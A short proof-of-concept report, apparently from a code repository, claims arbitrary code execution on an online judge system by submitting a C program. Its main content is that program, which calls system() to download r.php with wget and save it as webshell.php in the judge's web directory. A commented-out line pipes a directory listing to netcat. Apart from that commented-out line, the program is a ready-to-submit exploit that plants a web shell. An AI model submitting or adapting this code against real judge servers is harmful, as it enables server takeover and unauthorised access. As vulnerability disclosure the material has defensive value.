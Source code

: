 # POC1> 

You can run arbitary code execution via submitting following code on judge system.

	int main(int argc, char* argv[])
	{
	//    system("cd / && /bin/pwd && /bin/ls |  /bin/nc localhost 8081"); // command 1
	    system("/usr/bin/wget localhost:8888/r.php -O /home/judge/src/web/webshell.php"); // command 2
	}

# NOTE
